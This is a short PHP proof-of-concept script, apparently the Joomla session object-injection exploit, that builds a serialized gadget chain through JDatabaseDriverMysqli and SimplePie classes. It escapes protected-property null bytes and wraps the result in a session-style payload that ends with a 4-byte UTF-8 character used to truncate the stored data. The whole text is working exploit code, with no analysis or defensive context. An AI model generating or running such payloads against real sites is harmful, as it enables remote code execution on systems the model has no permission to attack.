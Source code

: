     class JDatabaseDriverMysqli {
        protected $a;
        protected $disconnectHandlers;
        protected $connection;
        function __construct()
        {
            $this->a = new JSimplepieFactory();
            $x = new SimplePie();
            $this->connection = 1;
            $this->disconnectHandlers = [
                [$x, "init"],
            ];
        }
    }

    $a = new JDatabaseDriverMysqli();
    $poc = serialize($a); 

    $poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

    echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
